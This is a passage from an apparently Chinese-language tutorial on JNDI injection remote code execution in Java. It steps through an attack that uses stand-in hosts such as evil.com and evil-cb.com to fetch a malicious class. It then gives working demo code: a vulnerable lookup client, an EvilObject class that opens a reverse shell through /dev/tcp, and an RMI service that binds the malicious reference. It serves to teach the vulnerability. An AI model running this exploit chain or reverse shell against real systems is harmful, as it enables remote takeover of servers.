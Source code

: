 1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 `rmi://evil.com:1099/refObj`；
2. 原先配置好的上下文环境 `rmi://localhost:1099` 会因为动态环境转换而被指向 `rmi://evil.com:1099/`；
3. 应用去 `rmi://evil.com:1099` 请求绑定对象 `refObj`，攻击者事先准备好的 RMI 服务会返回与名称 `refObj` 想绑定的 ReferenceWrapper 对象（`Reference("EvilObject", "EvilObject", "http://evil-cb.com/")`）；
4. 应用获取到 `ReferenceWrapper` 对象开始从本地 `CLASSPATH` 中搜索 `EvilObject` 类，如果不存在则会从 `http://evil-cb.com/` 上去尝试获取 `EvilObject.class`，即动态的去获取 `http://evil-cb.com/EvilObject.class`；
5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 `EvilObject.class`；
6. 应用开始调用 `EvilObject` 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行；

整个攻击的实现过程如上面所述，**关键的利用点在于攻击者可控的允、许动态环境转换的接口函数**，这里举了 `RMI` 结合 `Reference Object` 进行 RCE 的例子，更多的攻击向量参考原议题内容即可（因为我也理解得不是特别透彻，怕写错误导了大家）

下面给出完整的演示代码示例，首先是存在 JNDI 注入的程序（`RMIService.java`）：

```java
import javax.naming.Context;
import javax.naming.InitialContext;

public class JNDIClient {
    public static void main(String[] args) throws Exception {
        if(args.length < 1) {
            System.out.println("Usage: java JNDIClient <uri>");
            System.exit(-1);
        }
        String uri = args[0];
        Context ctx = new InitialContext();
        System.out.println("Using lookup() to fetch object with " + uri);
        ctx.lookup(uri);
    }
}
```

接着是要通过 JNDI 注入远程加载的类实例，一会儿可以用 `python -m SimpleHTTPServer` 启一个临时的 HTTP 服务来提供编译好的 `EvilObject.class`（`EvilObject.java`）：

```java
import java.lang.Runtime;
import java.lang.Process;

public class EvilObject {
    public EvilObject() throws Exception {
        Runtime rt = Runtime.getRuntime();
        String[] commands = {"/bin/sh", "-c", "/bin/sh -i > /dev/tcp/127.0.0.1/1337 2>&1 0>&1"};
        Process pc = rt.exec(commands);
        pc.waitFor();
    }
}
```

`EvilObject` 类的构造函数中包含了执行系统命令反弹 Shell 的代码，一会儿当 JNDI 注入成功触发时会被执行。

这里还需要一个 RMI 服务绑定一个相关的引用类（`RMIService.java`）：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class RMIService {
    public static void main(String args[]) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilObject", "EvilObject", "http://127.0.0.1:8080/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/refObj'");
        registry.bind("refObj", refObjWrapper);
    }
```
